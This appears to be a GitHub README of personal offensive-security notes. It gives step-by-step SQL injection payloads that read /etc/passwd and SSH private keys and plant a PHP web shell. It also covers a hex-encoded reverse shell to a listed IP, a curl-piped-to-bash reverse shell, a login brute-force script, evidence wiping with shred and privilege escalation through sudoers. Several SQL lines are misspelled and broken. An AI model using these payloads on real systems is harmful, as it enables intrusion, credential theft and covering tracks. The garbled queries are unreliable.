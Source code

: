 # hacking-notes


## Conversion

In a SQL Injecto to space satinization you can convert PHP code into Hexadecimal

```bash
echo '<?php system("bash -i >& /dev/tcp/10.9.4.202/4443 0>&1") ?>' | xxd -p -u | tr -d '\n'
```

How to convert from hexadecimal to ASCII using xxd command:

echo "your hexadecimal code here" | xxd -ps -r; echo

## Kali Linux

Change Kali Linux keyboard language to Spanish

```bash
setxkbmap es sundeadkeys
```

## Rootkits

How to monitor for linux rootkits

1. Make rkhunter database
```bash
rkhunter --propupd 
```

2. Launch rkhunter
```bash 
rkhunter --enable all
```

## SQL Injection

How to guess number of columns of a table
```sql
whatever' order by <nº> -- -
``` 

If you knwo the number of columns you can make a selection to test your sql injection
```sql
whatever' union select 1,"test" -- -
```

Load a file in a SQLinjection
```sql
whatever ' union select 1,load_file("/etc/password")-- -

whatever ' union select 1,load_file("/home/user/.ssh/id_rsa")-- -

whatever ' union select 1,load_file("/home/user/.ssh/id_rsa.pub")-- -

whatever ' union select 1,load_file("/etc/group")-- -
```

How to know what database exists in a Sql Injection, p.e. with 2 databases
```
whatever ' union select 1,shcema_name from information_scheam.schemadata limit 1,1 -- -

whatever ' union select 1,shcema_name from information_scheam.schemadata limit 2,1 -- -
```

How to list the tables of a database p.g. for the database webapp
```sql
whatever' union select 1,tabla_name from information_sceham.tables where table_schema="webapp" limit 1,1 -- -
```

How to get information of a table from the database name:
```sql
whatever' union select 1, column:name from information_scheam.columns where table_schema="webapp" and table_name="queue" limit 1,1
```

How to get information of columns of a table from the table name:
```sql
whatever' union select 1, group-concat(userID,0x3a,queueNum) from queue -- -
```

How to write into a file with a SQL Injection
```sql
whatever' union select 1,"I was here" INTO OUTFILE "/var/www/html/test.php"-- -
```

How to inject PHP code, in this case remote command execution into an sqlinjection with satinatization:

1. covert a string into hexadecimal and inject the code on the wesite
```bash
echo '<?php echo "<pre>" . shell_exec($_REQUEST["cmd"]). "</pre>"; ?>' | xxd -ps | tr -d "\n"
```
2. Create a reverse shell, reverseh.sh
```bash
#!/bin/bash

bash -i >& /dev/tcp/<your-local-ip>/4443 0>&1
```

3. Share a server with simpleHttpServer
```bash
python -m SimpleHTTPServer 80
```

4. Listen with netcat on your machine to the port 4443
```bash
nc -lvp 4443
```

4. Curl your reverse.sh into your remote execution injection (point 1) and pipe to bash
```bash 
http://<remote-ip>/remote.php?cmd=curl <your-local-ip>/reverse.sh | bash 
```


## System Commands

Get users that login into the system

```bash
last
```

Launch a pseudo-control
1. In the remote shell
```bash
script /dev/null -c bash

(and press Control + Z)
```

2. In your shell:
```bash
stty raw -echo

nc -nlvp 443

# <press fg>

reset

# Consolidate your terminal
xterm

# To be able to make Control + C and Control + L
export TERM=xterm
export SHELL=bash

# Get correct proporcion
stty rows 52 columns 197
```

# Remove Evidences
```
shred -zun -S -v{file.php, file2.xt}
```

# Grep users that exist at system lvel
```bash
cat /etc/passwd | grep "sh$"
```

# How to forwared a remote port to your local machine using ssh and dont login in your system
Execute the following in the remote machine.
```ssh
ssh -R 3000:127.0.0.1:3000 <your-user>@<your-ip> -N -f
```

## PENETRATION TESTING STEPS
1 . Make a ping and try to detect the OS of the machine
```ssh
ping -c 10 <ip>
```

2. Scan for open ports
```ssh
nmap -p- --open -T5 -v -n <remote-ip>
```

3. Detect services running on open ports
```
nmap -sC -sV -p <ports separated by commas>
```

4. In case of a web server try wfuzz:
```bash
wfuzz -c --hc=404 -w <dictionary> http://<remote-ip>/FUZZ1
```

5. Run a dictionary agains the web:
```
wfuzz -w dictionary.txt http://<remote-ip>
```

6. A script to make a brute force to a website asking credentials with a prompt
```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n[!] Exiting..\n"
  tput cnorm; exit 1;
  exit 1
}

trap ctrl_c INT

## Hide a cursor
tput civis

for password in $(cat diccionario.txt); do
  curl -s -X GET http://<ip>/inferno --user admin:$password | html2text| grep "Unauthorized" &>/dev/null
  
  if [ "$(echo $?)" -ne "0" ]; then
    echo -e "\n[*] THe password of user admin is $password\n"
    exit 0
  fi
done; tput cnorm;

```
7. How to authenticate using curl on a website with user/password promt:
```
curl -X GET -s http://<ip>/admin --user user:password
```

## Steganography 
```
steghide info <picture.jpg>
```
## Add a user to sudoers to scale privileges thanks of having "tee" command with suid
```sudo
echo "<user> ALL=(ALL:ALL) ALL" | sudo tee -a /etc/sudoers
```

